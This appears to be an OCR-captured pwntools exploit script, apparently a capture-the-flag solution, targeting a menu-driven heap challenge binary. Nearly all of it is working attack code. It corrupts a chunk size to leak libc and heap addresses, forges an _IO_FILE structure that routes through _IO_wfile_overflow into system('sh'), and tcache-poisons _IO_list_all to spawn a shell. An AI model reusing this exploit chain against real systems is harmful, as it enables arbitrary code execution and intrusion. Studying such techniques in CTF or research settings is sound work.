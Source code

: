 ```py
    p.sendlineafter(b'Enter user index: ', str(idx).encode())
    p.sendlineafter(b'Enter amount to mine: ', str(amnt).encode())
    p.sendlineafter(b'Enter description length: ', str(desc_len).encode())
    p.sendlineafter(b'Enter description: ', desc)

    return menu()

new_user(1, b"B"*0x130) # Needs to be small to overwrite size of next chunk
new_user(2, b"C"*0x130) # Needs to be small to reach the amount of next chunk
new_user(3, b"D"*0x200) # Padding
new_user(4, b"E"*0x200) # Padding
new_user(5, b"F"*0x100) # Padding
new_user(6, b"G"*0x140) # Padding

new_user(10, b"a"*0x200)

rename(1, b"?"*0x138+p64(0x6b1))
rm(2)

new_user(7, b'H'*0x130)
libc_leak = view(3)
gdb.attach(p)
pause()
print("libc: "+hex(libc_leak))
libc_base = libc_leak - 0x203b20

new_user(8, b'X'*0x40)
rm(8)

heap_leak = view(3)<<12
print("heap: "+hex(heap_leak))

# constructing IO_file

io_list_all = libc_base + 0x2044b0

fake_io_addr = heap_leak + 0x270 # TODO
system_addr=libc_base+libc.sym["system"]
fake_io_file=b"  sh;".ljust(0x8,b"\x00") 
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x30,b"\x00")
fake_io_file+=p64(0)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system_addr)
fake_io_file=fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(libc_base+0x205700)
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(fake_io_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x202228+libc_base) # 使得可以调用 _IO_wfile_overflow
fake_io_file+=p64(fake_io_addr)
# stuff the fake io somewhere

rename(1, fake_io_file)

rm(10)
rm(4)
new_user(10, b"x"*0x120) # 0x140 大小的 alloc
new_user(11, b"b"*0x60 + p64(0) + p64(0x221) + p64(io_list_all^(heap_leak //0x1000))+b"t"*0x20)
new_user(4, "get it out", 0x200)
new_user(12, p64(fake_io_addr) , 0x200)

p.sendline("6")
```